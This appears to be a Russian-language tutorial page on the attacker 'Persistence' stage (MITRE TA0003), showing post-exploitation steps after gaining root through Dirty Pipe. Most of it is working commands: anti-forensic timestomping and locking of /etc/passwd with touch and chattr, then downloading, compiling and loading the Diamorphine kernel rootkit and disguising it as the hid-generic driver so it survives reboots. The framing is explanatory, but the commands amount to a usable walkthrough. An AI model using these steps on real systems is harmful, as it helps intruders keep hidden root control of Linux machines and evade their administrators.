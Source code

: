 
### Что такое Persistence (Закрепление)?
Это этап, когда злоумышленник **обеспечивает себе постоянный доступ** к системе, даже если:
- Система будет перезагружена
- Уязвимость будет закрыта
- Пароли будут изменены
- Обнаружены следы взлома

Цель: Оставаться "невидимым" администратору и сохранять контроль над системой.

---

### Пример Dirty Pipe: [TA0003] – Persistence
После получения root-доступа через Dirty Pipe, злоумышленник выполняет следующие шаги:

#### Шаг 1: Скрытие изменений в /etc/passwd
```bash
# Восстанавливаем оригинальное время изменения файла
touch -d "@$(stat -c '%Y' /etc/passwd)" /etc/passwd

# Устанавливаем атрибут "только для чтения"
chattr +i /etc/passwd
```
**Пояснение:**
- `touch -d` изменяет дату модификации файла на оригинальную (чтобы администратор не заметил изменений)
- `chattr +i` делает файл неизменяемым (даже root не сможет его изменить без снятия атрибута)

#### Шаг 2: Установка руткита в ядро
```bash
# Скачиваем и компилируем руткит Diamorphine
git clone https://github.com/m0nad/Diamorphine
cd Diamorphine
make

# Загружаем модуль ядра
insmod diamorphine.ko

# Скрываем модуль
rmmod diamorphine  # Временно выгружаем
mv diamorphine.ko /lib/modules/$(uname -r)/kernel/drivers/hid/hid-generic.ko
depmod -a
modprobe hid-generic
```
**Что это дает:**
1. Модуль скрывает:
   - Свои процессы
   - Свои файлы
   - Сетевые соединения
2. Позволяет:
   - Скрывать другие вредоносные процессы
   - Получать root по требованию
   - Оставаться невидимым для большинства средств обнаружения

